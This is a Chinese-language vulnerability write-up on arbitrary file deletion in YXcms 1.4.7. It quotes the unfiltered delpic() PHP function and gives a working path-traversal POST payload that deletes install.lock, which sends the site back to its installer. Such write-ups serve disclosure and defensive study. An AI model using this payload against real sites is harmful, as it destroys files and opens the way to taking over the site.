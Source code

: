 # YXcms 1.4.7 任意文件删除

### 一、漏洞简介

### 二、漏洞影响

YXcms 1.4.7

### 三、复现过程

漏洞分析

漏洞文件：protected/apps/admin/controller/photoController.php,在第355行的delpic()函数，可以看到$picname接收POST过来的值，然后$path等于文件开头定义的静态变量 static protected $uploadpath='';//图片上传路径 没有对传入的值进行任何的过滤，使用函数file_exists()判断一下文件是否存在就给unlink执行删除文件了。


```php
public function delpic()
{
    if(empty($_POST['picname'])) $this->error('参数错误~');
    $picname=$_POST['picname'];
    $path=$this->uploadpath;
    if(file_exists($path.$picname))
      @unlink($path.$picname);
    else{echo '图片不存在~';return;} 
    if(file_exists($path.'thumb_'.$picname))
       @unlink($path.'thumb_'.$picname);
    else {echo '缩略图不存在~';return;}
    echo '原图以及缩略图删除成功~';
}
```

#### 复现

需要先登录后台，然后访问之后会显示缩略图不存在

payload


```
http://url/index.php%3Fr%3Dadmin/photo/delpic
```

POST：


```bash
picname=../../protected/apps/install/install.lock
```

![](images/15896461799397.png)


然后访问网站首页就会自动转到安装的页面

![](images/15896461893870.png)


看到目录下的install.lock文件已经被删除了

![](images/15896461993783.png)
